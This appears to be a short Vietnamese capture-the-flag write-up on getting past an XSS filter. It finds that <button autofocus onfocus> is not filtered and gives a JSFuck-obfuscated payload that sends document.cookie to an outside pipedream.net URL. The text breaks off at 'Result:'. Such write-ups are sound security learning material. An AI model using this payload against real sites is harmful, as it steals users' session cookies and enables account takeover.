 - Kiểm tra ta thấy trang web filter các ký tự như `<script>` , `</script>` hoặc các Event kích hoạt script inline như `onerror`, `onload`, `=`, `document.location`, `document.cookie` ... Đều bị filter.

- Tuy nhiên các thẻ HTML thì lại có thể được chấp thuận
```
<a>this is a test</a>
```
![1](img/23/Screenshot%20from%202023-01-31%2020-28-38.png)

- Ta cần kích hoạt được XSS inline trong các thẻ HTML này khi các sự kiện bị block. Tìm kiếm thì nhận thấy sự kiện `onfocus`, `autofocus` của thẻ `<button>` là không bị filter. Công việc còn lại là ẩn dấu script của chúng ta (các từ như `document.cookie` cần phải được mã hóa), ở đây em sử dụng `JSFUCK` và có thể bypass được

- Payload:
  - Conver script này sang dạng Jsfuck: 
      ```
      document.location='https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?c='.concat(document.cookie)
      ``` 

  - Paste JsFuck trên vào tham số cho payload sau:
      ```
      <button autofocus onfocus=(eval)()></button>
      ```

- Result:
